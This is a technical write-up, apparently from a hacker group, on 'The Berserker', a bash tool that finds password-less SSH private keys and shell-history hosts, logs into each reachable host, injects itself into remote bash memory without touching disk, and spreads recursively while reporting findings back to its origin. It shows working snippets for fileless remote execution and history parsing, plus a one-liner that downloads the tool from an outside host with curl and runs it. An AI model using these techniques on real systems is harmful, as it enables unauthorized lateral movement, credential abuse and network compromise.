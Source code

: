 ```yaml
---
layout: default
---
```

{:refdef: style="text-align: center;"}
## **A recursive, non-intrusive and ephemeral tool to find password-less private ssh-keys and build a hierarchical tree of reachable hosts**
{: refdef}

Random notes on how [The Berserker](../) works.

### Executive Summary
[The Berserker](../) is a bash script. At this point the reader either has a heart attack or multiple orgasms. There is no in-between.

### General
The Berserker looks for any password-less private ssh-key in ```~/.ssh``` and then gathers information from the User's shell history (```~/.bash_history```, ```.zsh_history``` and ```~/.history```) about any host the User connected to in the past. The Berserker then attempts to log into each host and injects itself into the remote's bash memory. It executes itself on the remote host and continues to do its deeds.

It keeps doing so until all ssh keys have been used and all hosts have been visited.

**Example**: User ```alice``` starts The Berserker on host ```Earth``` (the *origin*). The Berserker finds Alice's ssh-key and detects (from Alice's shell history) that ```alice``` frequently connects to ```Mars``` (as alice) and ```Jupiter``` (as root). The Berserker first connects to ```Mars``` and executes itself on ```Mars```. Let's assume The Berserker finds no further ssh-keys on ```Mars``` and so it will not spread beyond ```Mars```. Next it connects from ```Earth``` to ```Jupiter```. It's a root login to ```Jupiter``` and The Berserker finds many ssh-keys from various users. One such user is ```bob``` who frequently connects to ```Uranus``` and from there to ```Pluto```. Ultimately The Berserker will get to ```Pluto``` via a long ssh chain from ```Earth```->```Jupiter```->```Uranus```->```Pluto```.

At this point the educated reader will realise that The Berserker is *deep penetrating* ```Uranus```, e.g. ```Uranus``` gets owned even if firewalled or not being accessible from the Internet (but accessible from ```Jupiter```).

Berserker implements a text-based communication protocol via the stdin/stdout ssh-chain to send its findings back to ```Earth``` (the *origin* where The Berserker started).

### Bash In-Memory execution
Bash has this tremendous ability to load a script from a memory location and without the script needing to be stored on the target host.

```shell
cat >e.sh<<__EOF__
#! /bin/bash
echo "Hello '\$USER'"
__EOF__
S="$(cat e.sh | sed 's/\x27/\x27"\x27"\x27/g')"
ssh user@host.com "export SCRIPT='$S'; bash -c \"\$SCRIPT\""
```

1. Create a bash script named ```e.sh```.

1. Slurp the content into the variable ```$S``` after converting all ```'``` to ```'"'"'```. That's a bit freaky but hold your beer.

1. I use the hex notation (```\x27```) of ```'``` here or otherwise it would look rather complicated (```sed``` needs the ```'``` escaped so it is double-escaping time): ```S="$(cat e.sh | sed 's/'"'"'/'"'"'"'"'"'"'"'"'/g')"```. Most readers would commit suicide at this point. This is just to escape ```'``` correctly so that it can be passed to ```ssh``` as a command via a variable (```SCRIPT='$S'```) without interfering with the ```'``` around the ```$S```.

1. The long string ```export SCRIPT='$S'; bash -c \"\$SCRIPT\"``` is passed as a command to ```ssh``` to execute on the remote host. Note that the ```$``` in ```\"\$SCRIPT\"``` is escaped to prevent the local shell from substituting the variable. We like the remote bash (not the local one) to substitute ```$SCRIPT```. This is only needed because The Berserker needs to access the source of its own script (now stored in ```$SCRIPT``` to spread to further hosts). Otherwise ```bash -c '$S'``` would work.

No data is written to the target's host hard drive. All is kept in memory.

SSH has a 128k limit for passing arguments. *That ought to be enough for everyone*. Otherwise have a look how this limitation is overcome in [ssh-it's hook.sh](https://github.com/hackerschoice/ssh-it/blob/main/src/hook.sh) (pipeing a script with ```dd``` into a remote bash variable and executing the string from memory is a thing....).

### Bash Command line parsing

There is no efficient way to convert a command line string from ```~/.bash_history``` to an array in bash.

The history file contains the recently *typed* commands rather then the *executed* commands. There is a fine difference. Bash records the input rather then what's passed to exec(2) system call. Let's illustrate the problem:

```shell
ls foo\ bar
```

The bash records ```ls foo\ bar``` rather than what it actually executes (```exec("ls", "foo bar")```; note the missing ```\```). This is a problem if there are history entries containing bash variables or escape sequences like ```$HOME``` or ```\ ``` in the file name:

```shell
ssh -i $HOME/.ssh/id_dsa\ key.dat root@openbsd.org
```

The command actually executed is ```exec("ssh", "-i", "/home/user/.ssh/id_dsa key.dat", "root@openbsd.org")``` and from the string above it's impossible to determine which argument is passed as 1st, 2nd or last parameter to exec(2) - only bash knows.

The program ```xargs``` comes to the rescue to split the command line string into separate ARGV arguments the same way as bash would do. However, xargs executes another program (with the correctly split arguments). So we used ```xargs``` to call ```bash -c``` and output each command line argument in a separate line and then convert this into a bash array:
```shell
line="$(echo "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org" | xargs bash -c 'n=0; while [[ $n -le ${#} ]]; do eval eval echo "\$${n}"; n=$((n+1)); done')"
```

The variable ```line``` now contains
```
ssh
-i
/home/user/.ssh/id_dsa key.dat
root@openbsd.org
```

Note that the ```eval eval``` is needed. The first convert the ```${#}``` to the integer number of arguments passed to the bash by ```xargs``` and the second ```eval``` resolves the ```~/``` to the absolute directory name.

That format can now easily be split into an array like so:
```shell
IFS=$'\n' MyArray=($line)
```

We can add this into a nice bash function and have the bash-array returned by *pointer* (yes, bash can do pointers):

```shell
bash -l
cat >test.sh<<__EOF__
cmdline2array()
{
	local line
	# Double eval: 1st: To turn \$1 to argument string. 2nd to turn ~/.ssh to /home/user/.ssh
	line="\$(echo "\$2" | xargs bash -c 'n=0; while [[ \$n -le \${#} ]]; do eval eval echo "\\\$\${n}"; n=\$((n+1)); done')"
	# echo "LINES=\$line"
	IFS=$'\n' eval "\${1}=(\\\$line)"
	IFS=" "
}
__EOF__

# Now calling this function will store the arguments as array in 'MyArray':
source test.sh
cmdline2array MyArray "ssh -i ~/.ssh/id_dsa\ key.dat root@openbsd.org"
echo "Number of elements in MyArray: ${#MyArray[@]}"
# The output is '4'
echo "Content: ${MyArray[*]}"
# The output is: ssh -i /home/user/.ssh/id_dsa key.dat root@openbsd.org
```
 * Note how the *string* ```MyArray``` is passed as a function parameter (followed by the ssh command). Inside the function we use ```eval``` on that string to 'turn' the string-name (```MyArray```) into a bash variable. And that is how you (efficiently) pass one or more return values from the function back to the caller.

### Bash stderr and $? catching

The Berserker needs to check the error output of ```ssh``` _and_ also needs the exit-code of ```ssh```. The only way to do this in bash is to play file descriptor bonanza:
```shell
{ err="$( { echo 1>&2 "Hello-STDERR"; exit 123; } 2>&1 1>&3 3>&- )"; } 3>&1 || ret=$?
echo "Output ret=$ret err=$err"
```
* The ```echo 1>&2 "Hello-STDERR";``` generates some test output to STDERR.
* The ```exit 123;``` is some test exit code (123).

The output is ```Output ret=123 err=Hello-STDERR```.

### Transport Protocol via STDIN/STDOUT

All the slaves need to report back their findings to ```Earth``` (the *origin*). A simple protocol is used to pass the information from the farthest ```ssh``` back to the *origin* (via a long chain ssh-stdin-chain). In our example from above ```Pluto``` would pass the message back to ```Uranus```, ```Uranus``` back to ```Jupitor```, ... to ```Mars```, ... to ```Earth```. All protocol messages are then dispatched at the *origin* in ```msg_dispatch()```. The protocol messages are rather simple and you can see them by forcing the *origin* to be a slave with ```BS_DEBUG_IS_SLAVE=1```:

```shell
export BS="$(curl -fsSL ssh-it.thc.org/bs)" && bash -c "BS_DEBUG_IS_SLAVE=1 $BS"
```

The output will look similar to this:
```
|I|0|76672d|[#1] ~/.ssh/id_rsa
|I|0|76672d|[#2] ~/.ssh/id_rsa-old
|T|0|76672d|admin@192.168.1.1|1/112
|O|0|76672d|
|L|1|437048|76672d|admin|ubnt
|C|0|76672d|~/.ssh/id_rsa
|T|0|76672d|pi@192.168.1.18|3/112
|O|0|76672d|
|L|1|39a307|76672d|pi|raspberrypi
|I|1|39a307|Found 1 hosts to try.
|I|1|39a307|Found 1 key without password.
|I|1|39a307|[#1] ~/.ssh/id_rsa
```

### If you are reading this...

If you made it all the way to here then you are the type of person we like to hang out with. Join us on [Telegram](https://t.me/thcorg).

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


